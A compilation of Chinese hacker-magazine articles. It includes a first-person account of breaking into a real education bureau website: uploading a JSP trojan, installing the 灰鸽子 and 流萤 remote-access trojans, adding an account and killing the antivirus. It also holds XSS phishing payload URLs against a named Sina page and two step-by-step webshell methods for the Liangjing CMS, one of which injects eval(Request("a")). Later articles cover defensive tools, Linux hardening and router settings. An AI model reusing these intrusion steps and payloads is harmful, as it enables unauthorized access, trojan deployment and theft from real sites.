最后，我们再来看一下漏洞的修复方法。其实很简单：将 eWebEditor 所有数据库文件的属性改为只读就可以了。在网络上使用 eWebEditor 作为编辑器的程序不在少数，在无法上传 asp 木马的时候，我们可以通过 eWebEditor 这个漏洞建立一个简陋的 webshell，进而就可以通过浏览网站来想办法得到 webshell 了，比如下载备份数据库等等！

# 菜鸟入侵教育黄页方法

深圳有个叫 NS 区（用 2 个首字字母代替）的地方，是全国的教育强区哦，所以这里的教育局网站在外人眼中是很厉害的。至少在我对其进行渗透前也是这么认为的。这个网站的文章系统我看不出来是什么，估计是自己写的，使用的是 JSP+ASP，数据库使用的是 MYSQL。网站只在论坛上使用了 ASP，而文章系统用的却是 JSP。要想从 JSP 下手的话，估计是一个挑战。

经过简单的分析，我决定接受这个挑战，从文章系统入手。我在网址后面加了个 `/admin`，幻想着运气好的话可以出现个登录界面什么的，可谁知却出现了如图1所示的界面。竟然可以直接浏览整个目录，这也太说不过去了吧！我开始在这些文件及目录中找最有可能是登录的，当我点到 `loginInner.jsp` 的时候又有一个惊喜出来了——本来以为肯定会出现一个需要密码和账号的界面的，可结果却出来了如图2所示的界面。


这时候已经进入了后台，该干什么呢？当然是传个 WEBSHELL 上去了。看到那个上传附件的地方了吗？可我传了 N 个 JSP 木马都打不开，明明显示传上去了，就这样我郁闷了好长时间。在五一放假的前一天，我翻看以前的杂志时找到了一个 JSP 木马，死马当成活马医，再尝试一下了。我把木马传了上去。这回，幸运女神终于降临到了我身上，木马的大门终于成功地打开了，如图3。


试试看有没有写权限和执行文件权限，居然都可以，整个网站就这么简简单单地被我搞定了。我给管理员发了封 Email 提醒了他，就撤退闪人了。但当我两个星期后去访问那个 webshell，还是可以正常访问，而漏洞也依然存在。这管理员坏了……于是决定继续渗透下去。因为有执行文件的权限，所以我传了一个灰鸽子上去，可半天都没上传成功，估计应该是体积过大，就换了个流萤。还是流萤好用，才 34K，一下子就传上去了。在执行文件处执行了流萤的服务端，就看到上线了，如图4。


这下就好办了，我又重新传了个灰鸽子上去……流萤和灰鸽子各有自己的特点，流萤体积小，鸽子功能多，适合用来做中间的桥梁。入侵就是需要灵活运用嘛。我使用流萤运行鸽子的服务端后，不一会儿就看到了可爱的肉鸡出现在鸽子的列表上，如图5。


我又决定打开对方的终端 3389 服务，先加个用户吧。输入 `net user zhanchen zhanchen521 /add` 的时候出现了密码不满足密码策略的提示，如图6。


密码不满足密码策略的需要，难道是我的密码太简单了？于是我将密码改成 `zhanchen123!@#` 又试了试，结果还是一样。后来想到很多网站限制密码长度至少 16 位，于是重新设置密码，终于提示“命令成功完成”。


下面就是开 3389 了，传了个 Opents.exe 上去，结果壮烈牺牲。后来找到 SuperSc 工具，功能类似但上传后不崩。通过灰鸽子自带 Telnet 运行 supersc，按提示执行 `SuperSc.exe -s 1992 -r`，看到“正在保存设置……”后机器重启。

重启后我继续连 3389，依然无法连接（图8）。为什么连不上？难道有防火墙？鸽子查看进程后发现有诺顿防火墙，上传 `Pskill.exe` 结束诺顿进程后，远程连接恢复正常。


后来又发现了 PcAnywhere 的身影，只能继续处理。通过这次入侵我明白了外表坚固的网站不一定漏洞少，也练习了多种工具的配合使用。文中涉及工具：流萤、灰鸽子、SuperSc.exe、Pskill.exe 等。

# 菜鸟也能让菜刀变成杀人利器——浅谈网络钓鱼

网络钓鱼已不是新鲜话题。一般做法是伪造网页或电子邮件实施欺骗。真正具有欺骗性的页面通常需要一定网页制作与心理诱导技巧。

钓鱼往往结合人性弱点。例如构造“中奖信息”页面，也许命中率不高，但若页面与目标常用网站高度相似，点击概率会显著上升。文中以新浪科技搜索页面为例，发现搜索返回页面存在脚本注入现象。


```html
<script>alert("test!")</script>
```


```html
<font color=#F14F00><script>alert("test!")</script></font>
```


随后使用 WSE 抓包分析真实地址：打开监控后提交搜索参数，可在 POST 数据中看到提交字段（如 `name=11111`），据此可继续构造钓鱼流程。

直接构造如下页面：`http://php.tech.sina.com.cn/search/search.php?module=search&style=2&name=<script>alert("test")</script>`，执行后与搜索的跨站效果相同……


再简单给出几个示例，例如让其弹出指定网站，也可以作为网页木马。以百度为例构造 URL：`http://php.tech.sina.com.cn/search/search.php?module=search&style=2&name=<script>open("http://www.baidu.com")</script>`……

```html
<iframe height=0 width=0 src="http://www.baidu.com"></iframe>
```

替换 `name` 的等号后为一串字符，结果一样弹出了 test 的提示。这样的玩法非常丰富，只是看你想利用什么语句了……

这里 `img` 引入的是黑客 X 档案官方 logo 地址，也可以是任意网络图片，或上传到自己空间后给出真实地址……注意让别人直接打开图片地址，IE 可能会把页面代码执行……


不管是利用参数还是图片进行挂马，都是利用他人信任与防护不足。文中提到的 URL 编码转换工具已收录于光盘……

# 良精后台大揭秘

### 由良精程序后台得到 shell 的两种方式

## 一、前言

良精多语言多风格建站系统系列产品经过完善设计……对这款价值 800 元的企业站程序做了安全检测，发现不少漏洞，其中后台相关漏洞较多，较容易得到 webshell……

### 二、网站配置文件拿 webshell

首先使用默认用户名密码在 `http://localhost/admin/index.asp` 进入后台，进入“系统管理”的“网站配置”……查看 `admin/SiteConfig.asp` 源码可找到关键函数 `SaveConfig()`……

```vb
sub SaveConfig()
  If objInstalled=False Then
    FoundErr=True
  ...
end sub
```

`Const SiteName="Bug.Center.Team"`。首先我们在这里构造一下，为了得到 webshell，我们写一个一句话木马 `eval(Request("a"))` 到这里，需要闭合常数值的引号以避免出错。闭合方式是在我们填写的网站名称后面增加一个引号以闭合前面的引号，然后在所填写的所有语句结束后再写一个单引号以使后面的引号成为注释，而后写入一句话木马内容。此时第一行为：

`Const SiteName="Bug.Center.Team" eval(Request("a")) '"`

为了测试，我们按照这种方式修改，然后打开文件 `http://localhost/inc/config.asp`，此时发现出错了，如图2。


图2

```vb
ErrMsg=ErrMsg & "</br>您的服务器不支持FSO(Scripting.FileSystemObject)!" & "</br>"
exit sub
...
dim fso,ht
set fso=Server.CreateObject("Scripting.FileSystemObject")
set ht=fso.CreateTextFile(Server.MapPath("../inc/config.asp"),true)
ht.write "<%" & vbcrlf
ht.write "Const SiteName=" & chr(34) & trim(request("SiteName")) & chr(34) & " ' 网站名称" & vbcrlf
...
ht.write "%>"
ht.close
set ht=nothing
set fso=nothing
end sub
```

首先打开文件 `inc/config.asp`，然后使用 FSO 将获取的配置信息以某种格式写入配置文件。但是可以看到：

`ht.write "Const SiteName=" & chr(34) & trim(request("SiteName")) & chr(34) & " ' 网站名称" & vbcrlf`

这样的代码，程序直接 `trim(request("SiteName"))`，即获得前一页发送来的配置信息，而没有进行任何过滤就写入了配置文件 `inc/config.asp`。这样一来，如果我们写入一些 asp 代码，也会原样保存到 `inc/config.asp` 这个文件中；而这个文件恰好是 asp 文件，所以当访问 `inc/config.asp` 时，我们写入的服务器端 asp 代码也会被执行。

这是为什么呢？对了！是因为两句话写在一行了，ASP 规定一行只能写一个语句。我们知道在 C 语言中使用分号 `;` 分隔语句；在 ASP 中语句分隔符是冒号 `:`。因此可将第一行构造为：

`Const SiteName="Bug.Center.Team" : eval(Request("a")) '"`

那么经过对比，我们需要在管理界面的网站名称处填写 `Bug.Center.Team" : eval(Request("a"))`，点击“保存设置”将其写入文件 `inc/config.asp`，然后即可使用 asp 木马客户端连接 `http://localhost/inc/config.asp` 这个文件。导致这个漏洞的原因是程序员没考虑到入侵者可能使用语句分隔符来插入合法代码。

```vb
Function sStrProcess(byVal sStr, byVal p_type)
  If p_type = "len" Then
    sStr = Trim(sStr)
  End If
  sStr = Replace(Trim(sStr), Chr(34), Chr(34) & Chr(34))
  sStr = Replace(sStr, "<%", "<" & Chr(34) & "%")
  sStr = Replace(sStr, "%>", "%" & Chr(34) & ">")
End Function
```

> **小知识：** 可能会有朋友要问，如果 `inc/config.asp` 这个文件不使用 asp、asa 这类会在服务器端解释执行的扩展名类型，是不是就不会出现此漏洞呢？是的。但类似这样的配置文件通常保存有敏感系统信息，如果不使用可解释执行扩展名，入侵者可通过直接访问读到源码，从而获取这些敏感信息。

那么，这个漏洞该如何利用呢？在写入我们需要执行的代码之前，首先来看下 `inc/config.asp` 这个文件，分析其结构，从而使得我们可以构造写入的内容。

```asp
Const SiteName="良精通用企业网站管理系统"   '网站名称
Const SiteTitle="良精通用企业网站管理系统"  '网站标题
%>
```

可以看到，此文件用 `const` 语句来定义常数，以便其他文件调用，定义方式是“`const 常数名 = "常数值"`”。譬如我们提交网站名称为“Bug.Center.Team”，则此文件的第一行会写为……

### 三、通过备份文件拿 webshell

一般来说，我们是不能上传如 ASP 和 ASA 这样可以在服务器上解释执行的文件的（当然本例中可以通过修改配置来实现），不过我们可以通过备份数据库的方式来获得一个 webshell。因为这个程序中有一个数据库备份功能，而且它的功能有点过于强大了：其可以通过 FSO 对象让我们拷贝网站的任意文件到网站的任意位置，且拷贝文件可更改扩展名，因此我们可以利用这项备份功能产生可执行的 asp 文件。

以海阳 2006 为例，我们将 `2006P.asp` 改名为 `2006P.gif`，然后在后台任意一个可以上传图片的地方上传此文件，得到其路径为：`UploadFiles/200647225758683.gif`。然后我们进入“系统管理”的“数据库备份”栏目，在“当前数据库路径”中填写 `../UploadFiles/200647225758683.gif`（注意由于是相对 admin 目录，所以需要前加 `../` 表示上一级目录），然后在“备份数据库名称”填写 `2006.asp`（此处程序不会自动加 `.asa` 扩展名，需要手工加扩展名），然后点击备份（图3）。


图1

# 安全第一

在黑客遍布天下、病毒猖狂于网络的这个时代，杀毒软件和防火墙这些电脑的卫士也不断涌出，奋力抗敌。正所谓有矛必有盾，因此大家几乎可以放心地上网，不过选择什么盾来防止病毒和木马，这就值得考虑了……本文我就给广大菜鸟们带来了一款功能强大的防御软件——微点主动防御软件。


“微点”是一套“监控并举，动态防护”的主动防御体系，主要由“动态仿真反病毒专家系统”“自动准确判定新病毒”“程序行为监控并举”“自动提取特征值实现多重防护”和“可视化显示监控信息”五大核心技术组成……下面就让我们一起来体验一下它的功能吧。

首先需要注册，否则无法升级病毒库以及更新版本，不过还好，现在是免费注册，并且可以免费使用三个月……如图1、图2。


更新完以后，现在就算是新版本了，重新启动防御软件……有当前连接数、当前流量、远端地址等等，如图3。

## 一、安全

主要是本机系统漏洞扫描、可疑程序诊断、程序行为实时监控、修改程序策略、网络访问策略、有害程序隔离。我们都知道系统补丁是很重要的……下载该补丁安装就可以了，如图4。

接下来的可疑程序扫描，也是直接点选就可以进行诊断了，若发现可疑程序，它会给你报告的。修改程序策略跟网络访问策略这两项功能……如果发现某些恶意的程序，我们可以直接使用这个功能把它隔离，它就无法再运行了。


经过以上的一些设置，我们就基本安全了。不过只是简单的设置，当然不能完全抵御木马和病毒，所以我们还是不可以掉以轻心的。

如果还是中了木马怎么办？任由他人控制吗？当然不可以。可是木马都是悄悄地运行的，我们又怎么去发现呢？

现在的免杀木马可是遍布网络了，杀毒软件杀不出来也是正常的事情。接下来就看看如何寻找这些木马留下的痕迹。

## 二、网络分析

因为木马都是走网络的，比如盗号程序，在盗了我们的密码以后，就要连接网络，选择 email 方式或者是其他网络方式把我们的密码发送给盗号者；如果是远程控制软件，也就是我们常说的后门，这类程序也是要通过网络来连接控制的。那么“网络分析”这个功能，就可以起作用了，如图6。


进程名称、流量、端口、连接的 IP 地址，一目了然了。看看哪个程序比较可疑，比如既不是系统程序，也不是我们平时的软件程序，而是一些陌生的 exe 在运行，并且连通了网络的，这个时候就可以采取一些措施了，至少要先把它的网络连接断开，然后把此程序禁止连接网络。

从图6中也可以看到对方的 IP 地址，甚至可以尝试反入侵。我们来做个测试，我用 nc.exe 进行监听，然后自己 telnet 去发送一些数据，我们再对着刚才的“进程网络程序”列表中 nc.exe 点击右键，有好几个选项，分别是：程序信息、进程信息、流量图、结束进程。程序信息和进程信息，可以看到程序在系统中的位置、此文件修改的注册表项、此文件生成的文件、创建时间等，对于你在分析这个程序是否是木马的时候，会带来很大的帮助，因为有些木马会在程序中释放文件。并且观察修改时间、修改注册表项，当我用 nc 发送跟接收数据的时候，再看看流量图，也可以找些蛛丝马迹，如图7。

好了，经过以上的分析，我们已经基本可以确定木马是否存在了。

## 三、系统分析

木马毕竟也是依赖于我们的系统来运行的。那么我们在进行了网络分析以后，来对系统进行分析。这次我们就可以来个揪马的正式行动了。

“系统分析”主要有几项功能：进程综合信息、系统自启动信息、模块进程、注册表修复、系统信息（个人认为这个功能中几乎集合了冰刃的所有核心功能，以后对于我们手工清除木马是有很大的帮助的）。看看“进程综合信息”，它帮我们智能化地分类了，把各个进程都划分好了，让我们可以比较好区分究竟是系统程序、应用软件还是其他软件。

此外，点击其中一个进程还可以在下面的小方框中看到它所加载的 dll 模块信息及详细路径，如图8。


我们知道现在有许多木马都是加载 dll 隐蔽启动的，所以这个功能在我们分析木马、清除木马的时候可以起到很大的作用。当发现一些可疑 dll 的时候，可以结束它，然后找到其路径去清除它。接下来是“系统自启动信息”，这功能比一般的查看自启动信息的小软件功能要强多了，它不单只列出了要启动的程序，还把驱动、dll 动态链接库等都详细地列出来了，如图9。


木马都是自动启动的，那么当我们删除了木马的源文件以后，就要到这些启动项中把它的自动启动项给删除了。否则，启动电脑时就会报错了。

还有个注册表修复功能。朋友们，是不是经常遭遇 IE 首页被恶意修改啦？或者是病毒作乱，把你的开始菜单、运行都给禁止了，不用怕。看图这里，如图10。傻瓜化操作吧？那我就不浪费时间了，大家自己都会的了。

## 四、安全日志

安全日志主要分为：病毒日志、木马日志、溢出日志、蠕虫日志、网络入侵日志、异常网络访问日志和可疑程序访问日志。这些我想大家都比较好理解了，日志就是记录电脑每天的一些行为记录的。这里跟普通的防火墙不同的就是它把日志进行了详细的归类管理，让使用者可以更加智能地判断问题究竟出在哪，可以让使用者在解决问题的时候更有清晰的思路。


图10

## 五、系统日志

系统日志主要分为：管理员日志、进程启动日志、注册表生成日志、注册表变更日志。

管理员日志记载的是一些管理员的操作，有时候当系统出了问题的时候，可以查看一下此日志看看是否有误操作的记录。而对于后面的三项日志，则对木马、病毒入侵的分析也有很大的帮助。进程启动日志，就是启动了哪些程序之类的日志。如果启动了一些陌生的程序，我们理所当然会怀疑。注册表生成日志和注册表变更日志也是的，假若我们没有安装什么软件，也没有自己手工修改过注册表，却发现注册表的日志里有记录，则要小心为妙了。

“微点”就这样飘然于网络界攻与防的边界！好了，还有更多更强大的功能就让大家自己去体会、去挖掘了。不过此版本还是试用版，限用期是90天，要想体验的朋友尽快抢先注册了。

（本文涉及到的软件“微点主动防御软件”并没有收录）

## Linux初级安全指南

疯狗[B.C.T]

目前学习 Linux 的人越来越多，很高兴我也成为了其中的一员。喜欢 Linux，喜欢它开源的思想，喜欢它自由的理念，喜欢它的一切……国内学 Linux 的人还在少数，就是因为人们对它不了解，下面我在 Linux 受人关注的几个方面给大家做个说明，让大家初步了解 Linux 下个人用户的基本安全和优化配置。

首先是安全，做任何事都把安全第一嘛……很多人对 Linux 模糊的印象就是很安全的操作系统，这是相对来说的。为什么说相对呢？那就是人们对 Linux 的冷漠以及陌生，加上 Linux 用户少之又少，所以市面上大部分黑客攻击工具、木马都是针对 Windows 系统的，针对 Linux 的很少，反而使 Linux 成了一方净土。但是作为 Linux 系统，同样存在很多漏洞，黑客可以利用这些漏洞控制你的整个系统。实践证明，无论是哪种系统，默认安装都超不安全的，不管你是 Windows 也好，Linux 或其他什么系统也好，默认安装的都有很多漏洞。世界著名黑客凯文·米特尼克说过：“我可以进入任何一台默认配置的主机。”这并非骇人听闻。其实任何系统，经过精心的配置，补上安全漏洞，可以说它是安全的；而并非安装防火墙、杀毒软件就安全了，这是错误也是很幼稚的说法。怎样做才能安全呢？我做了如下总结。

## 一、升级系统中所有软件包到最新版本

这个是最重要的，和 Windows 的 Update 功能差不多，其实就是打补丁，只不过都是以升级新版本的形式出现。不同版本的 Linux 系统都有自己的更新程序，它们都可以自己搜索更新，并自动完成安装。

## 二、合理分配用户权限

密码是电脑安全第一关。如果你的系统还在用默认空口令，而且还开启 telnet、ssh 等服务的话，无疑是给黑客敞开了大门，所以系统安装完后要立即更改 root 等用户密码。可以使用 passwd 命令，但是大家记住，只有超级用户才可以使用 passwd 命令修改用户密码。该命令格式：`passwd [用户名]`，用法如下：如果要修改 fenggou 这个用户密码，首先打开 X 下的字符终端，输入 `passwd fenggou`，会提示 New UNIX password，即输入新密码，输入后还要再次输入新密码确认，如图1。


图1

从上图可以看出，如果不加用户名默认修改的是 root，还有密码输入是没有回显的，大家注意。其实是可以图形界面修改的，但是终端很方便，用 Linux 一定要养成经常使用终端的好习惯。另外，口令的保护还涉及到对 `/etc/passwd` 和 `/etc/shadow` 文件的保护，必须做到只有系统管理员才能访问这2个文件。

## 三、定期检查日志

Linux 的日志文件一般在 `/var/log` 中，在这个目录下你会看到很多后面带有数字的文件，这些文件是在日志文件被轮转的时候创建的。日志文件被循环使用，所以不会太大，但是黑客在攻击后经常删除、修改日志文件，所以一定要限制 `/var/log` 目录的访问，禁止一般权限用户查看、修改日志内容。大部分日志文件使用纯文本格式，任何文本编辑器都可以查看，当然也有日志查看器，比如 Red Hat 的 Logviewer，主菜单→系统工具→系统日志即可，而且更加细致简洁，如图2。

关于日志的分析我给大家推荐一个不错的工具——Logcheck。Logcheck 是用来自动检查系统安全入侵事件和非正常活动记录的工具，它分析各种 Linux 日志文件，像 `/var/log/messages`、`/var/log/secure`、`/var/log/maillog` 等等，然后生成一个可能有安全问题的报告。


## 四、netstat -a 命令

定时用 `netstat -a` 命令检查本地端口对外连接，如发现有任何特别或者没见过的端口与外界相连请立刻检查系统，前提是你必须对你的系统有足够的了解，如图3。


图中可以看出我正在和 `61.141.194.223` 的 `8000` 端口连接传输数据，其实这个是 QQ 会员服务器，我在上 QQ。还可以看到你开启的服务都有什么连接，和 Windows 差不多。

## 五、经常备份文件、目录

这个也是很重要的，大家千万不要怕麻烦，否则系统被非法入侵、被破坏乃至崩溃的话只有重装的份了。我们可以用 `tar` 为文件和目录进行备份，用法：`tar [选项] 文件`。其中选项又分为主选项和辅选项，主选项是必要的，告诉 tar 去做什么事情；辅选项是辅助的，可选。我只给大家几个最常用的选项，如下：

```
c  创建新的档案文件
r  把要存档的文件追加到档案文件末尾，比较快但容易造成碎片
t  列出档案内容
u  更新档案文件（仅追加较新的文件）
f  使用档案文件
x  释放文件
```

知道这些主选项就可以进行平时的文件备份了。要想知道其他选项，用 `tar --help` 来查看即可。下面我做个备份的实例，假如我的 root 目录下有 fenggou 是重要文件，我们可以使用命令 `tar -cf beifen.tar fenggou`，如图4。


事后还原文件也很简单，使用 `tar -xvf beifen.tar` 命令就可以了。顺便我给出几个重要的需要备份的文件和目录，`/etc/group`（组用户信息）：

```
/etc/passwd       包含所有的用户信息，如名称、密码、登录 shell 等
/etc/fstab        配置系统各项文件系统
/etc/inittab      设置 init 运行级别并控制初始化执行
/etc/hosts        记录主机名映射
/etc/modules.conf 系统模块配置
/etc/printcap     定义打印机和打印选项
/etc/XF86Config   定义 XFree86 的初始配置
```

总之，`/etc` 目录下的配置文件都需要定期地做备份。

## 六、经常检查用户列表

发现陌生用户立刻检查，乃至删除。不过现在入侵后给自己添加账户的情况很少见了。删除某个账号的命令是 `userdel -f *`，比如我要删除 fenggou 这个 ID，就执行 `userdel -f fenggou` 就可以了，`-f` 参数是删除该用户所有相关目录、文件。

## 七、设置强壮的防火墙，配置优秀的杀毒程序

Linux 下的防火墙杀毒程序很多，但是多数是英文。英文差的朋友要恶补了，所以我用的是 KDE 自带的防火墙，虽然功能没有专业的强大，但是感觉个人用户足够了。KDE 桌面环境的朋友可以考虑用这个自带的，如图5。

但是这个不是 KDE 桌面环境才有的，我还是给大家介绍个只要是 Linux 都自带的“防火墙”——`iptables`（内核包过滤管理工具）；它是包含在内核 2.4 Linux 发行版中的。

安全第一，大家理解后再配置就感觉简简单单轻轻松松了。大家看图6。


图5


图6

现在几乎所有的包过滤器都是遵循此流程，简单解释下：

- 包过滤规则必须在包过滤设备中存储起来。
- 当包到达一个端口时，对包的报头进行检查分析，关注诸如源地址、TCP 或 UDP 报头中的字段等。
- 包过滤规则按依赖顺序存储，应用于包规则。
- 如果包规则允许传输，该包将被接受，不必继续检查。
- 若一条规则没有包含允许或拒绝，则该包将被继续处理。
- 若包不满足任何一条规则，该包被阻挡。

Iptables 的用法：`iptables [-t table] CMD [chain] [rule-matcher] [-j target]`

table 为表名，有 filter、nat 和 mangle。包过滤只用到 filter 表，它是默认的。CMD 是操作命令，包括添加、删除、更新等等。chain 为链名，对于包过滤防火墙可操作 filter 表中的 INPUT 链、OUTPUT 链和 FORWARD 链，也可自定义链。rule-matcher 为规则匹配器，指定各种规则匹配，比如 IP、PORT、包类型等。target 为目标动作，当规则匹配一个包时，真正要执行的任务用目标标识。最常用的内置目标为 ACCEPT 和 DROP，当然也可以使用扩展的目标。

大家看完后一定感觉很麻烦，无从下手；不要怕，iptables 新手可以充分利用 syn 标识来阻止那些未经授权的非法访问。举个例子，浏览网页时，一个请求从你的电脑发送至 Web 服务器上，该服务器会响应请求并发回一个数据包，同时得到你系统上的一个临时端口。与响应请求不同的是，服务器并不关心所传送的内容，可以利用这种特点来设置规则，让它阻止所有没有经过你系统授权的 TCP 连接。

```bash
iptables -t filter -A INPUT -i eth0 -p tcp --syn -j DROP
iptables-save > iptables-script
```

这里的 `-i` 指的是网卡，`-p` 则是指协议，`--syn` 则表示带有 syn 标识设置的 TCP 数据包。SYN 用于初始化一个 TCP 连接，如果自己机器上没有运行任何服务器，别人也就不会向你发送 SYN 数据包。还有很多文章里把一系列的 iptables 规则放到一个初始化 Shell 脚本中，加上可执行属性，设置成开机运行，就组成了一个功能强大的防火墙。此类文章网上有很多，自己找下；如果还是不明白，可用 `iptables --help` 看帮助。关于杀毒软件，这个没什么好说的，下载安装后看一遍就会用了，个人感觉 McAfee VirusScan for Linux 不错。

## 八、关掉没用而且危险的服务

像 telnet、SSH、httpd、ftp 个人用户用不到的服务全部关掉，它们不仅浪费系统资源，还带来了安全隐患。关于系统服务相关的管控和注意事项我会在下篇文章详细说明。

## 九、定期去安全站点查看安全漏洞公告

下载相应安全补丁，了解最新木马、蠕虫特性，观察自己的电脑是否出现中毒症状，确认后再做相应处理。以上是安全配置中的被动做法，我们完全可以扮演黑客来测试自己的主机安全系数，比如用 Nmap 等扫描器扫描自己的电脑，如图7。


图7

可以清楚地看到我的电脑开了哪些端口和系统版本，这样可以更清楚地看到自己电脑所存在的缺陷。还可以用 Nessus 等漏洞扫描器、L0pht、john 等密码破解工具来检测你的系统口令，这样我们可以更直观、更主动地发现系统安全缺陷。

以上这些只是针对个人用户的安全建议，要是 Linux 服务器的话还有很多要注意的，比如 FTP 服务，用户名和密码是明文传输的，为了安全必须修改 `/etc/ftpusers` 文件配置，禁止 root、bin、adm 等特殊用户远程访问 FTP，等等。服务器安全就不细说了，这篇文章只是针对个人用户，有机会的话我会写 Linux 服务器基本安全配置。通过以上配置，你的 Linux 可以说是比较安全了，真正的安全还要靠自己，切不可因小失大！

# 我的杀软反黑神器

常在“江湖”走，哪能不被“黑”？想必各位都曾经有过感染病毒或中木马后门的经历吧！有时就连我们自己都纳闷，明明安装了最新版的杀毒软件以及网络防火墙，却仍然不清楚自己是如何中的招。其实，病毒与木马对抗杀毒软件的方法是多种多样的，改个特征码、加个密或加个壳，都可以轻易躲过杀毒软件的查杀。关于这类方法，详见《黑客X档案》06年第一期的小手册。也正因为如此，对于我们这些小菜来说，寻找一些必备的反黑利器尤为重要。下面就来看看我喜爱的几款反黑利器吧！

## 一、冰刃

对于冰刃这款工具，以前的《黑客X档案》上曾经详细介绍过其使用，相信很多朋友都使用过。它可以显示出系统内所有的进程、端口、启动组、服务等项目，如图1。


图1

冰刃可以显示出隐藏进程，例如一些插入到 IE 或者 explorer 的木马。用冰刃来对付一些 rootkit 简直是小菜一碟。不过我们也会忽略它的一些其他功能，例如端口查看功能，它可以清楚地显示是哪个进程（包括这个进程对应的程序）开启了端口，如图2。


图2

用过最新版 pcshare1130 的朋友可能知道，这个版本可以自定义插入到 winlogon 进程中。这个进程用来处理系统登录过程，所以它本来是不可能访问网络的。我在本地运行 pcshare 服务端后，通过冰刃的端口连接信息可以很清楚地看到 winlogon 正在建立连接，如图3。


图3

大家平时注意一下这个地方，如果你的 explorer 也正在保持远程通信，那么就极有可能有问题了。至于其他一些功能就不多介绍了，大家用多了自然就熟悉了。

## 二、Kernel SC

这款工具也被称作 knlsc，作者的介绍是：“一个查找隐藏服务的小程序。可以显示被 hxdef100 和 ntrootkit122 等 rootkit 隐藏起来的服务。发现隐藏服务后，可以使用本程序来禁用它。”

我大致讲一下它的运行原理。Knlsc 是通过将 `%SystemRoot%\System32\config\System` 这个 Hive 文件按输出项提取出 `ControlSet001\Services` 的子项，再与 `RegEnumKeyEx` 的输出结果进行比对；如果某子项不在 `RegEnumKeyEx` 输出中，就可认为是隐藏服务。

记得我在前边提到了 pcshare 木马，这个木马是驱动级木马，同样利用了隐藏服务技术。我们在 CMD 下输入 `knlsc`，就可以显示这个软件的具体使用格式。例如要查找隐藏服务可使用 `knlsc -f` 命令，在图4中我查到 pcshare 运行后产生了一个随机服务名 `gdidymcb`，接着就可以执行 `knlsc -cd gdidymcb` 来禁止这个服务了。


图4

禁止了木马服务，就相当于摧毁了木马的心脏。失去服务支持后，它就再也不能启动了。这绝对是一款对付隐藏服务的利器。要知道现在中木马的网友还是不少数，如果你想把木马彻底干掉，可以在注册表中搜索查找出的服务并删除，然后在系统中把同时间段产生的 DLL 全部删掉。

## 三、System Repair Engineer

这个程序用于调整和修复系统，简称 SREng。大家还记得上期杂志中介绍过的一款木马“上兴”吧，可能是为了显示与众不同的一面，上兴远程控制并没有在服务上做文章，而是写入到注册表 `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Winlogon` 的 `shell` 值，并把木马启动项添加到 `explorer.exe` 之后来隐藏启动。可是打开 SREng 就直接露陷了，如图5。


这款工具会自动读取可疑键值，并根据可疑信息给出报警，还算比较智能化。对于上兴这样的木马，我们只需要删除该键值，并根据文件路径找到木马定义的文件和 DLL 名即可。由于该 DLL 插入到 explorer，所以最好先关闭 explorer，再执行删除操作。

在启动项目里也有一项非常实用的功能就是“服务”。大家看到“隐藏微软服务”这个选项没有？勾选后就会把非系统服务列举出来，如图6。如果感到列举出的服务不安全，可以先选中可疑服务，再通过下面的“删除所选服务”进行删除。


“系统修复”这个功能也是我常用的，不光可以修复一些重要文件关联、避免木马再生，还有许多非常实用的修复项目，例如 IE 和 Hosts 文件修复，可以说非常齐全，如图7。


## 四、LP_Check

LP_Check 是一款检测系统克隆用户的工具，我建议一些网站管理员入手一份。相信看过以前杂志的朋友对“克隆账号之我见”一文印象不错吧，如果有一款可直接检测克隆用户的工具，岂不是锦上添花？运行 LP_Check 后，只要系统中有被克隆过的管理员用户，就可以很清楚地显示出来。


或许每个人都有自己钟爱的工具，在此也希望各位朋友能够将更好的反黑工具拿出来给我们这些小菜共享。希望各位在新的一年里拿起手中的武器，可以肉鸡多多、跑分飞快。不过，千万别肉没捞到，自己反而成了别人钩上的肉鸡啦！（本文涉及到的工具次序：Kernel SC、System Repair Engineer、LP_Check，光盘有收录）


# 宽带路由器安全设置

随着网络共享风潮兴起，宽带路由器正得到一般家庭用户或者小型企业的青睐。它支持多种网络接入方式（静态 IP 地址、DHCP 分配、PPP 拨号等），配置相对灵活，可满足对网络功能要求不高的使用者。但是由于普通用户不太熟悉网络知识，在设置路由器时往往使用默认甚至错误参数，这就给路由器本身乃至内网安全埋下了隐患。本文就以金浪宽频路由共享器 II 型 KN-S10-52（版本 R1.96h12）为例，给大家介绍如何进行宽带路由器的安全设置和注意事项。

## 一、DHCP 服务的设置

登录路由器后选择“基本设置”中的“DHCP 服务器”，打开如图1所示页面。如果以该路由器为核心组成的局域网电脑数量较少，建议选择“禁用”，停止 DHCP 服务，为所有电脑手动指定静态 IP，如 `192.168.123.1`、`192.168.123.2`……依次类推；如果电脑数量较多，手动指定 IP 比较繁琐，可开启 DHCP 服务，使客户机从路由器自动获得 IP 地址。为了便于管理，可根据客户机实际数量限定 IP 地址起止范围。

> 提示：单击“客户端列表”可以列出当前 DHCP 客户端 IP 地址和 MAC 地址对应表。

## 二、修改路由器默认密码

各款宽带路由器都存在默认密码，如华硕系列为“adsl1234”，金浪系列为“admin”。用户应在第一次配置路由器时就修改默认密码，否则容易被他人利用。修改方法：在“基本设置”中选择“修改密码”，输入旧密码并设置新密码，单击“保存”即可。


## 三、慎用 DMZ 主机功能

在防火墙概念中，DMZ（Demilitarized Zone）用于在内外网之间放置对外服务主机（如 WEB、E-mail），以实现访问隔离。家庭用户一般不建议启用；若必须启用，应配置主机防火墙与杀毒软件，并指定非标准 FTP 端口。可在“重定向规则”的“杂项”中设置 DMZ 主机 IP 并启用。


## 四、报文过滤和 MAC 地址控制

### 1. 报文过滤

报文过滤通过分析流入流出数据包来控制网络访问，依据来源与目的 IP 决定是否放行。流出过滤适用于由内向外的流出报文；流入过滤适用于目的地址为虚拟服务器或 DMZ 主机的报文。可在“安全设置”中启用并按源/目的 IP 与端口配置规则。


可以指定执行报文过滤的时间范围：

- 若总是执行，可在规则 ID 后选择“时间表规则(00) Always”。
- 若仅在特定时段执行，则在“高级设置→时间表规则→增加新规则”中新建时间规则。


输入规则名称（如“上班时间”）并设置日期与起止时间，保存后返回“报文过滤”页面，在“时间表规则”中选择新建规则并绑定到对应规则 ID。

> IP 地址与端口说明：可填写单个 IP、IP 范围（如 `192.168.123.2–192.168.123.99`）；端口可填单个端口（如 `80`）或范围（如 `1000–9999`）；协议可选 TCP/UDP。  
> 时间表规则示例：名称“上班时间”；时间规则范围为周一至周五 08:30—17:30，星期四返回 6。


以上设定代表客户端用户在每天 08:30—17:30 无法使用 QQ 聊天（QQ 默认端口号为 8000）。

